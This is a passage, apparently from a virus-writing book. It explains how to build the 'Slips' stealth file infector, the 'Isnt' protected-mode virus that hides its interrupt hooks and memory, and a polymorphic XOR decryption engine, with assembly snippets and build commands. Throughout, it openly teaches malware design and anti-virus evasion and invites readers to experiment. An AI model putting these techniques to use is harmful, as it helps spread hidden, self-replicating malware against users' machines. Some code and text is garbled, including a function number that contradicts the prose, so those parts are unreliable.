jmp DWORD PTR cs:[OLD_0EH] ;else go to old handler
INTERET:push ax
mov al,20H ;release interrupt controller
out 20H,al
pop ax
iret ;and return to caller
Just like boot sector viruses, viruses which infect files can also use a variety of tricks to hide the fact that they are present from prying programs. In this chapter, we'll examine the Slips virus, which employs a number of stealth techniques that are essential for a good stealth virus.
Slips is a fairly straight forward memory resident EXE infector as far as its reproduction method goes. It works somewhat like the Yellow Worm, infecting files during the directory search process. It differs from the Yellow Worm in that it uses the usual DOS Interrupt 21H Function 31H to go resident, and then it EXECs the host to make it run. It also differs from the Yellow Worm in that, once resident, infected files appear to be uninfected on disk.
Since Slips must determine whether a file is infected or not in a variety of situations and then take action to hide the infection, it needs a quick way to see an infection which is 100% certain.
Typically, stealth file infectors employ a simple technique to identify themselves, like changing the file date 100 years into the future. If properly stealthed, the virus will be the only thing that sees the unusual date. Any other program examining the date will see a correct value, because the virus will adjust it before letting anything else see it. This is the technique Slips uses: any file infected by Slips will have the date set 57 years into the future. That means it will be at least 2037, so the virus should work without fouling up until that date.
Most of the stealth features of Slips are implemented through an Interrupt 21H hook. Essentially, the goal of a stealth virus is to present to anything attempting to access a file an image of that file which is completely uninfected. Most high level file access is accomplished through an Interrupt 21H function, so hooking that interrupt is essential.
In order to do a good job stealthing, there are a number of different functions which must be hooked by the virus. These include:
Let's discuss each of these functions, and how the virus must handle them.
Both the FCB-based and the handle-based file search functions can retrieve some information about a file, which can be used to detect whether it has been infected or changed in some way. Most importantly, one can retrieve the file date, the file size, and the file attributes.
Slips does not change the file attributes when it infects a file, so it need do nothing to them while trapping functions that access them. On the other hand, both the file date and the size are changed by the virus. Thus, it must adjust them back to their initial values in any data returned by the file search functions. In this way, any search function will only see the original file size and date, even though that's not what's really on disk.
Both types of search functions use the DTA to store the data they retrieve. For handle-based functions, the size is stored at DTA+26H and the date is at DTA+24H. For FCB-based searches, the size is at FCB+29H and the date is at FCB+25H. Typical code to adjust these is given by
HSEARCH: call DOS ;call original search cmp [DTA+24H],57*512 ;date > 2037? jc EXIT ;no, just exit sub [DTA+24H],57*512 ;yes, subtract 57 yrs sub [DTA+26H],VSIZE ;adjust size sbb [DTA+28H],0 ;including high word EXIT:
Interrupt 21H, Function 57H, Subfunction 0 reports the date and time of a file. When this function is called, the virus must re-adjust the date so that it does not show the 57 year increment which the virus made on infected files. This is simply a matter of subtracting 57*512 from the dx register as returned from the true Interrupt 21H, Function 57H.
Interrupt 21H, Function 57H, Subfunction 1 sets the date and time of a file. When this is called, the virus should add 57*512 to the dx register before calling the original function, provided that the file which is being referenced is infected already. To determine that, the interrupt hook first calls Subfunction 0 to see what the current date is. Then it decides whether or not to add 57 years to the new date.
Interrupt 21H, Function 23H reports the size of a file in logical records using the FCB. The logical record size may be bytes or it maybesomethingelse. The record size is stored in theFCB atoffset 14. The virus must trap this function and adjust the size reported back in the FCB. Implementation of this function is left as an exercise for the reader.
A virus can stealth attempts to read infected files from disk, so that any programwhich reads files for the purpose of scanning them for viruses, checking their integrity, etc., will not see anything but an uninfected and unmodified program. To accomplish this, the virus must stealth two parts of the file.
Firstly, it must stealth the EXE header. If any attempt is made to read the header, the original header must be returned to the caller, not the infected one.
Secondly, the virus must stealth the end of the file. Any attempt to read the file where the virus is must be subverted, and made to look as if there is no data at that point in the file.
Read stealthing like this is one of the most difficult parts of stealthing a virus. It is not always a good idea, either. The reason is because the virus can actually disinfect programs on the fly. For example, if you take a directory full of Slips-infected EXE files and use PKZIP on them to create a ZIP file of them, all of the files in the ZIP file will be uninfected, even if all of the actual files in the directory are infected! This destroys the virus' ability to propagate through ZIP files and modem lines, etc. The long and the short of it is that stealth mechanisms can be too good!
In any event, file stealthing is difficult to implement in an efficient manner. The Slips uses the logic depicted in Figure 22.1 to do the job. This involves rooting around in DOS internal data to find the file information about an open file, and checking it to see if it is infected. If infected, it then finds the real file size there, and makes some calculations to see if the reques1.087 ed read will get forbidden data.
This "internal data" is the System File Table, or SFT for short. To find it, one must get the address of the List of Lists using DOS Interrupt 21H, Function 52H, an undocumented function. The List of Lists address is returned in in es:bx. Next, one must get the address of the start of the SFT. This is stored at offset 4 in the List of Lists. System File Table entries are stored in blocks. Each block contains a number of entries, stored in the word at offset 4 from the start of the block. (See Table 22.1) If the correct entry is in this block, then one goes to offset 6 + (entry no)*3BH to get it. (Each SFT entry is 3BH bytes long.) Otherwise, one must space forward to the next SFT block to look there. The next SFT block's address is stored at offset 0 in the block.
Figure 22.1: Read stealth logic.
Of course, to do this, you must know the entry number you are looking for. You can find that in the PSP of the process calling DOS, starting at offset 18H. When DOS opens a file and creates a file handle for a process, it keeps a table of them at this offset in the PSP. The file handle is an index into this table. Thus, for example,
mov al,es:[bx+18H]
will put the SFT entry number into al, if es is the PSP, and bx contains the handle.
Once the virus has found the correct SFT entry, it can pick up the file's date stamp and determine whether it is infected or not. If so, it can also determine the length of the file, and the current file pointer. Using that and the amount of data requested in the cx register when called, the virus can determine whether stealthing is necessary or not. If the read requests data at the end of the file where the virus is hiding, the virus can defeat the read, or simply truncate it so that only the host is read.
If the read requests data at the beginning of the file, where the header was modified, Slips breaks it down into two reads. First, Slips reads the requested data, complete with the modified header. Then, Slips skips to the end of the file where the data EXE_HDR is stored in the virus. This contains a copy of the unmodified header. Slips then reads this unmodified header in over the actual header, making it once again appear uninfected. Finally, Slips adjusts the file pointer so that it's exactly where it should have been if only the first read had occurred. All of this is accomplished by the HREAD_HOOK function.
A System File Table data block takes the form:
| Offset | Size | Description |
|---|---|---|
| 0 | 4 bytes | Pointer to next SFT block |
| 4 | 2 | Number of entries in this block |
| 6+3BH*N | 3BH | SFT entry |
Each SFT entry has the following structure (DOS 4.0 to 6.22):
| Offset | Size | Description |
|---|---|---|
| 0 | 2 | No. of file handles referring to this file |
| 2 | 2 | File open mode (From Fctn 3DH al) |
| 4 | 1 | File attribute |
| 5 | 2 | Device info word, if device, includes drive # |
| 7 | 4 | Pointer to device driver header or Drive Parameter Block |
| 0BH | 2 | Starting cluster of file |
| 0DH | 2 | File time stamp |
| 0FH | 2 | File date stamp |
| 11H | 4 | File size |
| 15H | 4 | File pointer where read/write will go in file |
| 19H | 2 | Relative cluster in file of last cluster accessed |
| 1BH | 2 | Absolute cluster of last cluster accessed |
| 1DH | 2 | Number of sector containing directory entry |
| 1FH | 1 | Number of dir entry within sector |
| 20H | 11 | File name in FCB format |
| 2BH | 4 | Pointer to previous SFT sharing same file |
| 2FH | 2 | Network machine number which opened file |
| 31H | 2 | PSP segment of file's owner |
| 33H | 2 | Offset within SHARE.EXE of sharing record |
Table 22.1: The System File Table Structure
The Slips virus does not implement FCB-based read stealthing. The idea behind it is just like the handle-based version, except one must rely on the FCBs for file information. This is left as an exercise for the reader.
File pointer moves relative to the end of the file using Function 42H, Subfunction 2 must be adjusted to be relative to the end of the host. The virus handles this by first doing a move to the end of the file with the code
mov ax,4C02H
xor cx,cx
xor dx,dx
int 21H
The true file length is then returned in dx:ax. To this number it adds the distance from the end of the file it was asked to move, thereby calculating the requested distance from the beginning of the file. From this number it subtracts OFFSET END_VIRUS + 10H, which is where the move would go if the virus wasn't there.
A program could conceivably load a virus into memory and examine it using the DOS EXEC Function 4BH, Subfunction 1 or 3. An infected program loaded this way must be cleaned up by the resident virus before control is passed back to the caller. To do this, the virus must be wiped off the end of the file image in memory, and the startup cs:ip and ss:sp which are stored in the EXEC information block must be adjusted to the host's values. (See Table 4.2) This clean-up is implemented in Slips for Subfunction 1. Subfunction 3 is left as an exercise for the reader.
Though not implemented in Slips, a virus could also hook Interrupt 13H so that it could not be successfully called by an anti-virus which might implement its own file system to go around any DOS interrupt hooks. Such a hook could simply return with carry set unless it was called from within the DOS Interrupt 21H hook. To do that one would just have to set a flag every time Interrupt 21H was entered, and then check it before processing any Interrupt 13H request. A typical handler would look like this:
INT_13H:
cmp cs:[IN_21H],1 ;in int 21H?
jne EXIT_BAD ;no, don't let it go
jmp DWORD PTR cs:[OLD_13H] ;else ok, go to old
EXIT_BAD:
xor ax,ax ;destroy ax
stc ;return with c set
retf 2
The Slips virus infects files when they are located by the FCB-based file search functions, Interrupt 21H, Functions 11H and 12H. It infects files by appending its code to the end of the file, in a manner similar to the Yellow Worm. To stealth files properly, it must jump through some hoops which the Yellow Worm did not bother with, though.
For starters, Slips must not modify the file attribute. Typically, when one writes to a file and then closes it, the Archive attribute is set so that any backup software knows the file has been changed, and it can back it up again. Slips must not allow that attribute to get set, or it's a sure clue to anti-virus software that something has changed.This is best accomplishedduringinfection.DOS Function 43H allows one to get or set the file attributes for a file. Thus, the virus gets the file attributes before it opens the file, and then saves them again after it has closed it.
Secondly, the virus must make sure no one can see that the date on the file has changed. Part of this involves the resident part of Slips, but it must also do some work at infection time. Specifically, it must get the original date and time on the file, and then add 57 to the years, and then save that new date when the file is closed. If one allows the date to be updated and then adds 57 years to it, the date will obviously have changed, even after the virus subtracts 57 from the years. This work is accomplished with DOS Function 57H.
Finally, the virus must modify the file during the infection process so that it can calculate the exact original size of the file. As you may recall, the Yellow Worm had to pad the end of the original EXE so that the virus started on a paragraph boundary. That is necessary so that the virus always begins executing at offset 0. Unfortunately this technique makes the number of bytes added to a file a variable. Thus, the virus cannot simply subtract X bytes from the true size to get the uninfected size. To fix that, Slips must make an additional adjustment to the file size. It adds enough bytes at the end of the file so that the number added at the start plus the end is always equal to 16. Then it can simply subtract its own size plus 16 to get the original size of the file.
Since file stealth is so complex, most anti-virus programs are quite satisfied to simply scan memory for known viruses, and then tell you to shut down and boot from a clean floppy disk if they find one. This is an absolutely stupid approach, and you should shun any anti-virus product that does only this to protect against stealthing viruses.
The typical methods used by more sophisticated anti-virus software against stealth file infectors are to either tunnel past their interrupt hooks or to find something the virus neglected to stealth in order to get at the original handler.
It is not too hard to tunnel Interrupt 21H to find the original vector because DOS is so standardized. There are normally only a very few versions which are being run at any given point in history. Thus, one could even reasonably scan for it.
Secondly, if the virus forgets to hook every function which, for example, reports the file size, then the ones it hooked will report one size, and those it missed will report a different size. For example, one could look at the file size by:
If you don't get the same answer every time, you can be sure something real funny is going on! (As the old bit of wisdom goes, it's easy for two people to tell the truth, but if they're going to lie, it's hard for them to keep their story straight.) Even if you can't identify the virus, you might surmise that something's there.
Any scanner or integrity checker that doesn't watch out for these kind of things is the work of amateurs.
If you have anti-virus software that covers these bases it will be able to stop most casually written stealth viruses. However, one should never assume that such software can always stop all stealth viruses. There are a number of ways in which a stealth virus can fool even very sophisticated programs. Firstly, the virus author can be very careful to cover all his bases, so there are no inconsistencies in the various ways one might attempt to collect data about the file. This is not an easy job if you take into account undocumented means of getting at file information, like the SFT... but it can be done.
Secondly, Interrupt 21H can be hooked without ever touching the Interrupt Vector Table. For example, if the virus tunneled Interrupt 21H and found a place where it could simply overwrite the original Interrupt 21H handler with something like
JLOC: jmp FAR VIRUS_HANDLER
then the virus could get control passed to it right out of DOS. The virus could do its thing, then replace the code at JLOC with what was originally there and return control there. Such a scheme is practically impossible to thwart in a generic way, without detailed knowledge of a specific virus.
Well, by now I hope you can see why a lot of anti-virus packages just scan memory and freeze if they find a resident virus. However, I hope you can also see why that's such a dumb strategy: it provides no generic protection. You have to wait for your anti-virus developer to get the virus before you can defend against it. And any generic protection is better than none.
The following program can be assembled into an EXE file with TASM, MASM or A86. If you want to play around with this virus, be very careful that you don'tlet it go,because it's hard to seewhere it went, and it infects very fast. You can infect your whole computer in a matter of seconds if you're not careful! My suggestion would be to put an already-infected test file somewhere in your computer, and then check it frequently. If the test file has a current date, the virus is resident. If the test file has a date 57 years from now, the virus is not resident.
So far we really haven't discussed the implications of protected mode programming for viruses. 80386 (and up) processors are much more sophisticated than the lowly 8088's which DOS was built around. These processors can emulate the 8088, but they also can operate in a completely different mode which is designed to be able to access up to 4 GB of memory, and handle the demands of a multi-user, multi-tasking environment. This is called protected mode.
When a PC starts up, it normally starts up in real mode. In Real mode, the processor acts just like an 8088. However, the software which it executes can take it into protected mode at any time.
Whatever gains control of the processor in protected mode essentially has special power over all other software which is executed at a later point in time. In protected mode, there are four privilege levels, 0 through 3. The code that first jumps to protected mode gets hold of the highest level of access to the computer, privilege level 0. It can start all subsequent processes at lower privilege levels and effectively protect itself from being bothered by them. This program model has tremendous implications for viruses. If a virus can get hold of protected mode first, then it can potentially stealth itself perfectly, in such a way that no anti-virus program can ever touch it.
Just what is possible in protected mode? Let's take a look at some of the possibilities.
In protected mode, a program can actually lock I/O ports the way a regular real-mode virus might hook interrupts. That is done by setting up an IO map, which delineates what access rights each port has. This I/O port stealth can be done in a manner totally invisible to anything not running at privilege level 0.
For example, one could hook ports 1F0 to 1F7, which control the hard disk. Any attempt to access them could be checked to see if they're setting up an access to a forbidden area on disk. If so, the disk access could be redirected to a different part of the disk, or frustrated, and thus a boot sector virus could stealth itself against any software. Even anti-virus software which contained a routine to directly access the hard disk, without using Interrupt 13H, would be diverted. Likewise Interrupt 13H could be diverted without even hooking it.
A virus like this has actually been demonstrated. It's called SS-386, sometimes referred to as PMBS for Protected Mode Boot Sector. 1
A protected mode virus could hook interrupts without modifying their vectors. This is because any int XX instruction causes a general protection fault in protected mode, and the protected mode control program is given the opportunity to simulate or divert the interrupt. Thus, a program looking for funny business might watch the interrupt vectors for changes, while the protected mode program walks right under its nose.
Ordinary real mode software is pretty vulnerable when sitting in memory. We've discussed how scanners can look for viruses in memory, and viruses can look for scanners. It's not so simple in protected mode.
A protected mode program can map the entire 4 gigabyte system memory into pages and mark them as available or not. If a page is not available to an application program and it accesses it, a page fault occurs, and control is passed to the protected mode fault handler. This handler can, if so desired, fool the program which caused the fault into thinking it is accessing that memory successfully, when it's actually being directed somewhere completely different.
A protected mode program can also use page faulting to get at the real BIOS level interrupt vectors even when anti-virus software has hooked them in a very complicated way to thwart interrupt tunnelling efforts by viruses. The virus need only set up to pagefault the BIOS ROM and then perform a test interrupt. This technique, too, has been demonstrated already. 2
Techniques like this have mainly been limited to demonstration viruses. However, I hope you can see that they present the possibility of a sort of ultimate, undetectable stealth. Whatever goes into protected mode first has ultimate control over the computer. Properly implemented, nothing executed later will be able to catch it. PMBS for example, can even fool hardware-based anti-virus products when they execute after it does - it's that good.
In general, protected mode programming at the systems level is much more complex than ordinary real-mode programming. There are lots of new data structures one has to tend to, etc. It's also real hard to debug systems-level protected mode software with anything short of an In-Circuit Emulator. The only other alternative is trial and error, and system-halting protected mode violations galore. Still, you can learn it if you're patient and go step-by-step. I recommend you arm yourself with Intel's 80386 Programmers Reference Manual 3 first, though.
As far as writing straight, from-the-ground-up protected mode software goes, I favor Turbo Assembler, because it'll do just what you want it to do. MASM sometimes tries to out smart you, which only leads to disaster here. A86 is useless in this realm.
Isnt is a protected-mode virus which infects EXE files when they're located by the FCB-based search functions. It differs from viruses like the Yellow Worm and Slips in that it uses protected mode to stealth itself in memory whenever it can, e.g. if something hasn't already put the processor into protected mode.
When operating as a protected mode virus, Isnt leaves no trace of itself in ordinary DOS memory, even though it hooks interrupt 21H and, overall, functions very much like Yellow Worm and Slips. There are two things which Isnt does to stealth memory so that you cannot see it. Firstly, it must cover up the fact that it's hooked Interrupt 21H. Secondly, it must hide the main body of its code.
Using protected mode features, one can hook an interrupt vector without ever modifying the usual Interrupt Vector Table.
In real mode, when a hardware interrupt occurs, or an int XX instruction is executed, the processor automatically looks up the address to jump to in the table at 0:0, and then jumps to the address it finds. This action is not programmed in software, it's hardware driven. In protected mode, however, this interrupt vector table at 0:0 is not used automatically. Instead, the processor uses an Interrupt Descriptor Table (IDT), which can be stored anywhere in memory. The IDT consists of an array of 8-byte entries which tell the processor where to jump when an interrupt occurs. One tells the processor where to find the IDT with the lidt instruction, which loads the size and location of the IDT into the processor.
Now, once in protected mode, one can set up a virtual machine, which emulates a real mode processor, except that the protected mode control software called the V86 monitor can remain in charge in some crucial ways. This is called V86 mode. In V86 mode, hardware interrupts are sent to the protected mode control program. They only touch the real mode routines which process these interrupts if the protected mode program wants to pass control to them. This process is called reflecting the interrupt back to V86 mode. Let's look at some code to do it for the keyboard. First, one finds the stack in the virtual 8086 machine (VM). The virtual machine's ss and sp are on the V86 monitor's stack, so one gets them and calculates where the virtual machine's stack is,
mov bx,[ebp+24] ;get VM ss
shl ebx,4 ;make absolute @ from it
mov ecx,[ebp+20] ;get VM sp
sub ecx,6
add ebx,ecx ;absolute @ of stack in ebx
To perform an interrupt, the stack must be set up with the flags,
mov eax,[ebp+16] ;get flags from VM caller
mov [ebx+4],ax ;put flags on VM stack
Then the interrupt enable flags must be cleared on the V86 monitor's stack,
and eax,0FFFFFDFFH ;cli
mov [ebp+16],eax ;save flags with cli for return
Next, the cs:ip to return to after servicing the interrupt are pulled off the V86 monitor's stack and put on the virtual machine's stack,
mov ax,[ebp+12] ;get VM cs
mov [ebx+2],ax ;save it on VM stack
mov eax,[ebp+8] ;get VM ip
mov [ebx],ax ;save it on VM stack
Then the virtual machine's sp is updated,
mov [ebp+20],ecx ;and update it
Finally, the virtual machine's ISR for this interrupt is located, and its address is put on the V86 monitor's stack to return to after the General Protection Fault,
mov ebx,9*4
mov eax,[ebx] ;get VM ISR @ for this interrupt
mov [ebp+8],ax ;save VM int handler as ret ip
shr eax,16
mov [ebp+12],ax ;and return cs
As you can see, all of the registers which must be manipulated are put on the stack by the processor, and the interrupt handler just has to manipulate them, and set up the V86 stack for an iret when the V86 handler is done.
When a software interrupt int XX is executed in V86 mode, it causes a General Protection Fault, or GPF. If you've used Windows very much, I'm sure you'll recognize that term. A GPF is treated just like a protected mode hardware interrupt to interrupt vector 0DH. If it wants to, the General Protection Fault handler can reflect the software interrupt back to the V86 handler, or it can do something else with it.
Isnt reflects most of the software interrupts back to V86 mode, to be processed by DOS or the ROM BIOS, but there are some exceptions. For example, Isnt doesn't always reflect Interrupt 21H to the vector located at 0:0084H. If ax=4209H, or ah=11H or 12H, then Isnt ignores what is stored in the interrupt vector table. In all other instances, Isnt transfers control to the usual Interrupt 21H handler.
When ax=4209H, the V86 control program handles the interrupt itself in protected mode. As you may recall, this is the signal which Slips uses to detect itself in memory. Isnt uses the same function to detect itself in memory. To handle such an interrupt, the General Protection Fault handler simply clears the carry flag on the stack, and returns control to the V86 machine at the instruction following the int 21H function which called it. The code to do this is fairly straight- forward,
add WORD PTR [ebp+8],2 ;update ip to point to next instr
add WORD PTR [ebp+20],6 ;re-adjust stack in VM
mov eax,[ebp+16] ;get flags
or eax,200H ;sti
and eax,0FFFFFFFEH ;clc
mov [ebp+16],eax ;and save them
When ah=11H or 12H, the V86 control program passes control to the SRCH_HOOK function in the Isnt virus. It knows where that function is located in memory because the virus saves that address when it is loaded. This process of transferring control somewhere besides the interrupt vector is actually quite easy. Instead of pulling the address to go to from the interrupt vector table like this:
mov eax,es:[bx] ;get it in ax
mov [ebp+8],ax ;save VM int handler as return ip
shr eax,16
mov [ebp+12],ax ;and return cs
Isnt just takes it from an internal variable, like this:
mov eax,[NEW_21H] ;get addr of viral INT 21H handler
mov [ebp+8],ax ;save VM int handler as return ip
shr eax,16
mov [ebp+12],ax ;and return cs
These calisthenics make it possible for the virus to hook Interrupt 21H without ever touching the interrupt vector table. No software looking for hooked interrupts will see any change in the interrupt vector table before and after Isnt is loaded.
Not only does Isnt stealth the interrupt vector table, it stealths the memory where it resides. This is accomplished using the memory page management features of the 80386 (and above) processors.
In the 80386, there are two levels of translations between the memory address which software uses and the physical addresses which locate bytes in the DRAM chips. The first level we have encountered before in dealing with segments. As you will recall, in real mode, segments are defined to form a sort of most significant word of memory. Physical addresses are found by taking 16 times the segment plus the offset. In 80386 protected mode, segments are defined by a descriptor table, either the Global Descriptor Table or a Local Descriptor Table. These descriptor tables, which consist of 8-byte entries, define the segment starting point (known as the base), the segment size (known as the limit) and the segment properties (for example, a code segment, a data segment, etc.). In protected mode, the segment registers cs, ss, ds, es (and fs and gs) contain selectors instead of address information. The selectors point to entries in the descriptor tables. Thus, for example, ds will take the value 8. This number is merely a pointer to entry 1 in the descriptor table. The location of that segment could be anywhere in memory. To compute an address, the 80386 uses the selector to lock up the segment base in the descriptor table and adds the offset of the memory referenced to it. For example, if ds=8 and the base of entry 1 in th GDT was 80000H, then instructions of the form
mov bx,12987H
mov al,[bx]
would access linear memory address 80000H + 12987H = 92987H. Notice, however, that I call this linear memory, not physical memory. That's because there's another translation scheme at work in the 80386.
In addition to segmentation, the 80386 can also translate memory using a paging scheme in protected mode. This paging scheme lives underneath the segmentation and translates linear addresses into physical addresses.
In the 80386, both the entire linear and physical memory is broken up into 4 kilobyte pages. Each page in linear memory can be mapped into any page in physical memory, or into none at all.
This arrangement is accomplished with a set of page tables that translate linear into physical memory. Each entry in a page table is a 32-bit number. The upper 20 bits form the address of a physical page of memory. The lower 12 bits in each entry are set aside for flags. (See Figure 23.1) These flags allow one to mark pages as present or absent, as read/write or read only, and as available for applications programs or only for systems software. One page table is special, and it's called a page directory. Each entry in the page directory points to a page table. Each page table, including the page directory, occupies one page and must be aligned on a page. This scheme allows 4 gigabytes of memory to be managed with the page tables. Essentially, 1024 page directory entries point to 1024 page tables, with 1024 entries each, each of which points to a page of 4096 bytes of memory. (Not all of these tables need actually exist.)
Isnt uses the paging system to hide itself. To do this it uses two different paging maps, each of which requires one page directory and one page entry. When the virus is active (that is, when the SRCH_HOOK has been called by the V86 monitor) the virus uses a straight linear mapping, where all linear memory addresses are the same as all physical memory addresses.
When Isnt is not actively infecting files in a directory search, its V86 monitor uses a different page map. This map takes some physical memory at the address 11C000H inextendedmemory, and maps it into the linear address which belonged to Isnt in the other page map. (Figure 23.2)
Figure 23.1: A Page Table entry.
Switching between one page map and the other is as simple as loading the control register cr3 with the address of a page directory. Isnt calls the SETUP_PAGE_TABLES routine at initialization. This creates the first set of page tables at the physical address 118000H and the second at 11A000H. Then, when the V86 monitor intercepts an int 21H which requires passing control to SRCH_HOOK, the General Protection Fault handler simply sets cr3=118000H before transferring control to SRCH_HOOK. This pages the virus into memory so it can do its work. When it's done, the V86 monitor sets cr3=11A000H and the virus promptly disappears!
All that remains is to determine how to tell the V86 monitor that the virus is done processing its interrupt hook. When one sets the i/o privilege level IOPL=3, the General Protection Fault handler only traps software interrupt instructions. It does not, for example, trap iret's. It would be nice to trap an iret because that's a pretty normal instruction to use at the end of processing interrupts. One can cause them to be trapped by setting IOPL < 3, but then a bunch of other instructions get trapped too. That means one has to add a lot of overhead to the General Protection Fault handler. Rather than taking this approach, Isnt uses a different tactic.
Whatever one does to signal the end of SRCH_HOOK's processing, it must be the very last thing done by that code. Once the V86 monitor switches pages, the code is no longer there, and the cs:ip had better be pointing somewhere else! Since the General Protection Fault handler already traps interrupts, it makes sense to use another, unused interrupt to signal that the interrupt hook is done processing. Isnt uses Interrupt 0FFH.
When the General Protection Fault handler sees an Interrupt 0FFH, it treats it entirely differently than an ordinary interrupt. To the V86 machine, the int 0FFH is made to look exactly like a retf 2 instruction. It also tells the V86 monitor to set cr3=11A000H, paging the virus out of memory.
Figure 23.2: The Isnt virus in memory.
This completes the process of stealthing the virus in memory. In this way, the virus can go resident and hook interrupts without leaving anytrace of itself toscanforinmemoryintheV86machine.
Now obviously there aren't a whole lot of Pentium machines out there running DOS in real mode. As such, the Isnt virus is more of a look at what a virus could do, rather than a practical virus that's likely to spread in a big way.
Practically speaking, though, a boot sector virus could implement a complete memory manager like HIMEM.SYS and succeed at living quite well even in a Windows environment. It would load before the installed memory manager and peacefully lobotomize it when it starts up.
Likewise, many of the newer advanced operating systems are surprisingly free about making protected mode resources available to programs - resources which a virus could use to exploit the power of protected mode just as well as Isnt. For example, the Virtual Anarchy 4 virus creates a Virtual Device Driver for Windows 3.1 on the fly and instructs Windows to load it at startup. This driver effectively stealths hard disk access in protected mode, and it only exists as a virtual device driver on disk for a split second while Windows is loading. After it has been loaded into memory, the virus deletes it from the disk.
In short, viruses which are wise to protected mode have the potential to be a real nightmare for anti-virus software. If they gain control of protected mode system resources first, and use them wisely, there's almost nothing which an anti-virus can do about it.
The Isnt virus consists of ten .ASM files. It should be compiled with TASM, preferably Version 2.X, into an EXE file using the commands
tasm /m3 isnt,,; tlink /3 isnt;
The files have the following functions:
Now let's discuss a completely different tactic for evading anti-virus software. This approach is based on the idea that a virus scanner searches for strings of code which are present in some known virus. An old trick used by virus-writing neophytes to avoid scanner detection is to take an old, well-known virus and change a few instructions in the right place to make the virus skip right past a scanner. For example, if the scanner were looking for the instructions
mov ax,2513H
mov dx,1307H
int 21H
one might modify the virus to instead execute this operation with the code
mov dx,2513H
mov ax,1307H
xchg ax,dx
int 21H
The scanner would no longer see it, and the virus could go on its merry way without being detected.
Take this idea one step further, though: Suppose that a virus was programmed so that it had no constant string of code available to search for? Suppose it was programmed to look a little different each time it replicated? Then there would be no fixed string that an anti-virus could latch onto to detect it. Such a virus would presumably be impervious to detection by such techniques. Such a virus is called polymorphic.
Virus writers began experimenting with such techniques in the early 90's. Some of the first viruses which employed such techniques were the 1260 or V2P2 series of viruses. Before long, a Bulgarian who called himself the Dark Avenger released an object module which he called the Mutation Engine. This object module was designed to be linked into a virus and called by the virus, and it would give it the ability to look different each time it replicated. Needless to say, this new development caused an uproar in the anti-virus community. Lots of people were saying that the end of computing was upon us, while others were busy developing a way to detect it - very quietly. Ability to detect such a monster would give a company a giant leap on the competition.
All of the hype surrounding this new idea made sure it would catch on with virus writers, and gave it an aura of deep secrecy. At one time the hottest thing you could get your hands on for trading, either among anti-virus types or among the virus writers, was a copy of the Dark Avenger's engine. Yet the concepts needed to make a virus polymorphic are really fairly simple.
In fact, the ideas and methods are so simple once you understand them that with a little effort one can write a virus that really throws a loop at existing anti-virus software. This has posed a dilema for me. I started writing this chapter with something fairly sophisticated, simply because I wanted to demonstrate the power of these techniques, but it proved too powerful. No anti-virus software on the market today even came close to recognizing it. So I toned it down. Still too powerful. In the end I had to go back to something I'd developed morethantwoyears ago. Eventhen, many anti-virus programs don't even do a fair job at detecting it. Now, I don't want to release the Internet Doom virus, yet at the same time, I want to show you the real weaknesses of anti-virus software, and what viruses can really do.
Well, with all of that said, let me say it one more time, just so you understand completely: The virus we discuss in this chapter was developed in January, 1993. It has been published and made available on CD-ROM for any anti-virus developer who wants to bother with it since that time. The anti-virus software I am testing it against was current, effective July, 1995 - about 2 1/2 years later. The results are in some cases abysmal. I hope some anti-virus developers will read this and take it to heart.
Basically, a polymorphic virus can be broken down into two parts. The main body of the virus is generally encrypted using a variable encryption routine which changes with each copy of the virus. As such, the main body always looks different. Next, in front of this encrypted part is placed a decryptor. The decryptor is responsible for decrypting the body of the virus and passing control to it. This decryptor must be generated by the polymorphic engine in a somewhat random fashion too. If a fixed decryptor were used, then an anti-virus could simply take a string of code from it, and the job would be done. By generating the decryptor randomly each time,the viruscan change it enough that it cannotbedetectedeither.
Rather than simply appending an image of itself to a program file, a polymorphic virus takes the extra step of building a special encrypted image of itself in memory, and that is appended to a file.
The first hoop a polymorphic virus must jump through is to encrypt the main body of the virus. This "main body" is what we normally think of as the virus: the search routine, the infection routine, any stealth routines, etc. It also consists of the code which makes the virus polymorphic to begin with, i.e., the routines which perform the encryption and the routines which generate the decryptor.
Now understand that whenI say"encryption" and"decryption" I mean something far different than what cryptographers think of. The art of cryptography involves enciphering a message so that one cannot analyze the ciphered message to determine what the original message was, if one does not have a secret password, etc. A polymorphic virus does not work like that. For one, there is no "secret password." Secondly, the decryption process must be completely trivial. That is, the program's decryptor, by itself, must be able to decrypt the main body of the virus and execute it. It must not require any external input from the operator, like a cryptographic program would. A lot of well-known virus researchers seem to miss this.
A simple automatic encryption/decryption routine might take the form
DECRYPT:
mov si,OFFSET START
mov di,OFFSET START
mov cx,VIR_SIZE
ELP: lodsb
xor al,093H
stosb
loop ELP
START:
(Body of virus goes here)
This decryptor simply XORs every byte of the code, from BODY to BODY+VIR_SIZE with a constant value, 93H. Both the encryptor and the decryptor can be identical in this instance.
The problem with a very simple decryptor like this is that it only has 256 different possibilities for encrypting a virus, one for each constant value used in the xor instruction. A scanner can thus detect it without a tremendous amount of work. For example, if the unencrypted code looked like this:
10H 20H 27H 10H 60H
encrypting the code would result in:
83H B3H B4H 83H F3H
Now, rather than looking for these bytes directly, the scanner could look for the xor of bytes 1 and 2, bytes 1 and 3, etc. These would be given by
30H 37H 00H 70H
and they don't change whether the code is encrypted or not. Essentially all this does is build an extra hoop for the scanner to jump through, and force it to enlarge the "scan string" by one byte (since five bytes of code provide four "difference" bytes). What a good encryptor/decryptor should do is create many hoops for a scanner to jump through. That makes it a lot more work for a scanner to break the encryption automatically and get to the virus hiding behind it. Such is the idea behind the Many Hoops polymorphic virus we'll discuss in this chapter.
Many Hoops uses what I call the Visible Mutation Engine, or VME. VME uses two completely different decryption strategies. The first is a simple byte-wise XOR, like the above, with an added twist in that the byte to XOR with is modified with each iteration. The decryptor/encryptor looks like this:
DECRYPT0:
mov si,OFFSET START
mov cx,VIR_SIZE
mov bl,X
D0LP: xor [si],bl
inc si
add bl,Y
loop D0LP
where X and Y are constant bytes chosen at random by the software which generates the encryption/decryption algorithm. This decryptor essentially has 256 x 256 = 65,536 different possible combinations.
The second decryptor uses a constant word-wise XOR which takes the form
DECRYPT1:
mov si,OFFSET START
mov di,OFFSET START
mov cx,VIR_SIZE / 2 + 1
D1LP: lodsw
xor ax,X
stosw
loop D1LP
where X is a word constant chosen at random by the software which generates the algorithm. This scheme isn't too different from the first, and it provides another 65,536 different possible combinations. Note how simple both of these algorithms are - yet even so they pose problems for most anti-virus software.
To encrypt the main body of the virus, one simply sets up a data area where a copy of the virus is placed. Then one calls an encrypt routine in which one can specify the start and length of the virus. This creates an encrypted copy of the main body of the virus which can be attached to a host file.
